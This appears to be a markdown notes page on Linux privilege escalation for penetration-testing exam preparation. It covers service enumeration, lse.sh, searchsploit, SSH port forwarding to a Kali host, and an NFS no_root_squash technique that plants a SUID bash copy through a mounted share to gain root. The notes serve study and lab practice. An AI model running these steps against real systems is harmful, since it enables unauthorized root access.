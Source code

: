 It’s always worth checking services because you might find a version that has a PoC exploit available.

You might also find internal services that can be accessed by port forwarding.


### Services manual enumeration
Search for services running as root:

`ps aux | grep "^root"`

Enumerate version details:

`<SERVICE> --version`
or
`dpkg -l | grep <SERVICE>`
or
`rpm -qa | grep <SERVICE>`

### Automatic enumeration
lse.sh:

`./lse.sh -l 1 -i`
Check for services like MySQL. Can you login as root wtihout password?
Run service versions through searchsploit to check for PoC exploits.
### Port forwarding
Port forwarding is something you definitely need to be able to do for your exam.
I found it a bit confusing at first but once you get the concept it’s quite straight forward.
Run netstat to check for open internal ports:

`netstat -nl`

Port forward via SSH:
`ssh -R <KALI-PORT>:127.0.0.1:<SERVICE-PORT> <KALI-USERNAME>@<KALI-IP>`
Example: `ssh -R 5555:127.0.0.1:3306 root@10.10.10.10`

## NFS Root Squashing

When **no_root_squash** appears in `/etc/exports`, the folder is shareable and a remote user can mount it.

```powershell
# remote check the name of the folder
showmount -e 10.10.10.10

# create dir
mkdir /tmp/nfsdir  

# mount directory 
mount -t nfs 10.10.10.10:/shared /tmp/nfsdir    
cd /tmp/nfsdir

# copy wanted shell 
cp /bin/bash . 	

# set suid permission
chmod +s bash 	
```
